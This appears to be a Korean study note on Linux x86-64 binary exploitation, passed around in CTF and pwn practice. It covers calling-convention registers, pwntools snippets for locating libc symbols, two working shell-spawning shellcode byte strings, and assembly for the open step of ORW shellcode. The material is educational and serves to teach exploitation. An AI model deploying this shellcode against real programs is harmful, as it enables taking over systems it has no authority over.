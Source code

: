   - 함수의 인자와 레지스터
    - 함수의 인자는 순서대로 rdi, rsi, rdx, rcx, r8, r9, [rsp], [rsp+8], [rsp+0x10], [rsp+0x18], [rsp+0x20] ... 값을 가져와서 사용한다.

3. 프로그램을 실행시키며 취약점 공략 및 쉘 권한 탈취
  - [pwndbg](../pwntool) 및 [pwntool](../../C++/gdb) 활용

### 자주 쓰는 구문
- [pwntool] libc_base 주소 획득
  ```
  libc = ELF('./libc.so.6')
  libc.symbols['_IO_2_1_stdout_']  # 라이브러리에서 'stdout' 의 상대위치 획득
  libc.symbols['_IO_file_jumps']  # 라이브러리에서 '_IO_jump_t' 구조체 정의 위치 획득
  ```
- [linux] 라이브러리 참조 경로 설정
  `export LD_PRELOAD=$(realpath ./libc.so.6)`

- [SYSV 규약의 특징]
  - 함수 호출시 사용되는 인자는 레지스터에 `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9` 순서대로 적용된다. 6개를 넘어서는 인자는 stack 에 쌓인다.

- [assembly 구문]
  - 64비트 환경에서 쉘 실행 구문(31byte) : `\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05`
  - 64비트 환경에서 쉘 실행 구문(23byte) : `\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05`

## 취약점 및 공략
- [샘플 코드](https://github.com/AswinBlue/ExploitExample)

### ORW
- 파일을 열고 읽고 쓸 수 있도록 하는 shell code를 'ORW shell code' 라 칭한다. 
- 시스템 콜들은 rax, rdi, rsi, rdx로 이루어 져 있음을 참고하여 shell code를 작성해 보자.
    - rax : 시스템 콜에 대응되는 번호
    - rdi : 시스템 콜의 첫번째 인자
    - rsi : 시스템 콜의 두번째 인자
    - rdx : 시스템 콜의 세번째 인자
1. open
    - 리눅스에서 open 명령은 `open('FILE_PATH', flag, mode)` 형태이다. 
    - 이를 어셈블리어로 분리하여 표현하면 
        1) 'FILE_PATH' 을 stack에 담는다. 
            - 이때, stack에는 데이터가 8byte씩 올라가기 때문에 8byte 단위로 string을 끊어서 push한다.
            - ex) "1234567890" 을 stack에 담을 때 "09" "87654321" 순으로 데이터를 push해야 한다.
        2) rsp를 rdi로 옮겨  rdi(첫번째 인자)가 'FILE_PATH'를 가리키도록 한다.
        3) 두 번째와 세 번째 인자에 맞게 각각 rsi와 rdx를 설정한다.
        4) open은 시스템 콜 번호 2에 해당하므로 rax를 2로 설정한다.
    - ex) open ("1234567890", O_RDONLY, NULL) 은 아래 어셈블리어로 치환된다.
        ```
        push 0x3039
        mov rax, 0x3837363534333231 ; to push 8byte
        push rax
        mov rdi, rsp    ; (1) rdi = "1234567890"
        xor rsi, rsi    ; (3) rsi = 0 ; O_RDONLY
        xor rdx, rdx    ; (3) rdx = 0 ; NULL
        mov rax, 2      ; (4) rax = 2 ; syscall_open
        syscall         ; open("1234567890", O_RDONLY, NULL)
        ```
